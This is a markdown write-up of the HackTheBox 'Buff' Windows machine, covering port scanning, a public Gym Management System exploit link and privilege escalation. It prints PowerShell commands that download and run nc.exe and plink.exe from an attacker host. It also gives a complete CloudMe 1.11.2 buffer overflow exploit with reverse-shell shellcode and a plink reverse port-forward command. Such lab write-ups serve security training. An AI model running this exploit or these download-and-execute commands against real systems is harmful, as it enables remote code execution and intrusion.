







---
tags:
  - HackTheBox
  - Easy
  - B2R
  - Windows
  - Gym-Management-System
  - RCE
  - Buffer-Overflow
  - CloudMe
  - port-forwarding
aliases:
  - 10.10.10.198
---

# 10.10.10.198 - Buff [Easy]

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
It is better to have your head in the clouds, and know where you are... than to breathe the clearer atmosphere below them, and think that you are in paradise.
- Henry David Thoreau
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

## Information Gathering
``` bash
root@kali:~/CTF/HackTheBox/Machine/Buff# nmap 10.10.10.198 -p 8080,7680 -sC -oA files/nmap/open-services
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-22 21:43 CEST
Nmap scan report for 10.10.10.198
Host is up (0.037s latency).

PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: mrb3n's Bro Hut

Nmap done: 1 IP address (1 host up) scanned in 10.76 seconds
```




“Gym Management Software 1.0” == **Gym Management System 1.0**
https://www.exploit-db.com/exploits/48506





`4b5b023a28f09d7bbace384b13095dfe`

## Privilege Escalation
``` powershell
echo $webclient = New-Object System.Net.WebClient >wget.ps1
echo $url = "http://10.10.14.39/nc.exe" >>wget.ps1
echo $file = "nc.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

``` powershell
Proto  Local Address          Foreign Address        State

  TCP    0.0.0.0:135            BUFF:0                 LISTENING
  TCP    0.0.0.0:445            BUFF:0                 LISTENING
  TCP    0.0.0.0:5040           BUFF:0                 LISTENING
  TCP    0.0.0.0:7680           BUFF:0                 LISTENING
  TCP    0.0.0.0:8080           BUFF:0                 LISTENING
  TCP    0.0.0.0:49664          BUFF:0                 LISTENING
  TCP    0.0.0.0:49665          BUFF:0                 LISTENING
  TCP    0.0.0.0:49666          BUFF:0                 LISTENING
  TCP    0.0.0.0:49667          BUFF:0                 LISTENING
  TCP    0.0.0.0:49668          BUFF:0                 LISTENING
  TCP    0.0.0.0:49669          BUFF:0                 LISTENING
  TCP    10.10.10.198:139       BUFF:0                 LISTENING
  TCP    10.10.10.198:8080      10.10.14.29:48092      ESTABLISHED
  TCP    10.10.10.198:8080      10.10.14.39:40996      CLOSE_WAIT
  TCP    10.10.10.198:8080      10.10.14.39:41084      ESTABLISHED
  TCP    10.10.10.198:49697     10.10.14.39:http       ESTABLISHED
  TCP    10.10.10.198:49707     10.10.14.29:4000       ESTABLISHED
  TCP    127.0.0.1:3306         BUFF:0                 LISTENING
  TCP    127.0.0.1:8888         BUFF:0                 LISTENING
```
https://www.exploit-db.com/exploits/48389
https://bufferoverflows.net/practical-exploitation-part-1-cloudme-sync-1-11-2-bufferoverflow-seh/

Move the CloudMe_1112.exe file locally and testing it on a dev machine.
Minimal sostitutions to 48389.py
``` python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.39 LPORT=443 -a x86 -f python -b  '\x00\x0A\x0D' --> LEN 351
buf =  b""                                                                                               
buf += b"\xbd\xae\xea\xd2\xc4\xd9\xc3\xd9\x74\x24\xf4\x58\x31"                                           
buf += b"\xc9\xb1\x52\x31\x68\x12\x83\xc0\x04\x03\xc6\xe4\x30"                                           
buf += b"\x31\xea\x11\x36\xba\x12\xe2\x57\x32\xf7\xd3\x57\x20"
buf += b"\x7c\x43\x68\x22\xd0\x68\x03\x66\xc0\xfb\x61\xaf\xe7"
buf += b"\x4c\xcf\x89\xc6\x4d\x7c\xe9\x49\xce\x7f\x3e\xa9\xef"
buf += b"\x4f\x33\xa8\x28\xad\xbe\xf8\xe1\xb9\x6d\xec\x86\xf4"
buf += b"\xad\x87\xd5\x19\xb6\x74\xad\x18\x97\x2b\xa5\x42\x37"
buf += b"\xca\x6a\xff\x7e\xd4\x6f\x3a\xc8\x6f\x5b\xb0\xcb\xb9"
buf += b"\x95\x39\x67\x84\x19\xc8\x79\xc1\x9e\x33\x0c\x3b\xdd"
buf += b"\xce\x17\xf8\x9f\x14\x9d\x1a\x07\xde\x05\xc6\xb9\x33"
buf += b"\xd3\x8d\xb6\xf8\x97\xc9\xda\xff\x74\x62\xe6\x74\x7b"
buf += b"\xa4\x6e\xce\x58\x60\x2a\x94\xc1\x31\x96\x7b\xfd\x21"
buf += b"\x79\x23\x5b\x2a\x94\x30\xd6\x71\xf1\xf5\xdb\x89\x01"
buf += b"\x92\x6c\xfa\x33\x3d\xc7\x94\x7f\xb6\xc1\x63\x7f\xed"
buf += b"\xb6\xfb\x7e\x0e\xc7\xd2\x44\x5a\x97\x4c\x6c\xe3\x7c"
buf += b"\x8c\x91\x36\xd2\xdc\x3d\xe9\x93\x8c\xfd\x59\x7c\xc6"
buf += b"\xf1\x86\x9c\xe9\xdb\xae\x37\x10\x8c\xda\xcd\x14\x6b"
buf += b"\xb3\xd3\x28\x72\xf8\x5d\xce\x1e\xee\x0b\x59\xb7\x97"
buf += b"\x11\x11\x26\x57\x8c\x5c\x68\xd3\x23\xa1\x27\x14\x49"
buf += b"\xb1\xd0\xd4\x04\xeb\x77\xea\xb2\x83\x14\x79\x59\x53"
buf += b"\x52\x62\xf6\x04\x33\x54\x0f\xc0\xa9\xcf\xb9\xf6\x33"
buf += b"\x89\x82\xb2\xef\x6a\x0c\x3b\x7d\xd6\x2a\x2b\xbb\xd7"
buf += b"\x76\x1f\x13\x8e\x20\xc9\xd5\x78\x83\xa3\x8f\xd7\x4d"
buf += b"\x23\x49\x14\x4e\x35\x56\x71\x38\xd9\xe7\x2c\x7d\xe6"
buf += b"\xc8\xb8\x89\x9f\x34\x59\x75\x4a\xfd\x69\x3c\xd6\x54"
buf += b"\xe2\x99\x83\xe4\x6f\x1a\x7e\x2a\x96\x99\x8a\xd3\x6d"
buf += b"\x81\xff\xd6\x2a\x05\xec\xaa\x23\xe0\x12\x18\x43\x21"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + buf))

expl = padding1 + EIP + NOPS + buf + overrun

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(expl)
except Exception as e:
        print(sys.exc_value)
```

``` powershell
echo '$webclient = New-Object System.Net.WebClient' > wget.ps1
echo '$url = "http://10.10.14.39/plink-x64.exe"' >>wget.ps1
echo '$file = "plink.exe"' >>wget.ps1
echo '$webclient.DownloadFile($url,$file)' >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

.\plink.exe -ssh -l root -R 8888:127.0.0.1:8888 10.10.14.39
```




`a19f68f858b4464cdc8a7d5415d7bd0f`